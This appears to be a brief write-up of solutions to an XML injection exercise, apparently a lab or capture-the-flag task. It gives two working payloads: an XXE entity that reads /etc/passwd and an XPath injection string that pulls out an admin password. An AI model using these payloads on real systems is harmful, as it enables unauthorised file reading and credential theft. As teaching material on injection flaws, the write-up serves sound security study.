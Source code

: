 # XML Injection

## 1

We can get the first one with an insecure entity reference:

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:////etc/passwd">]><foo>&xxe;</foo>`

## 2

... and we can get the second one with some xpath injection!

`admin']/parent::*/password%00`
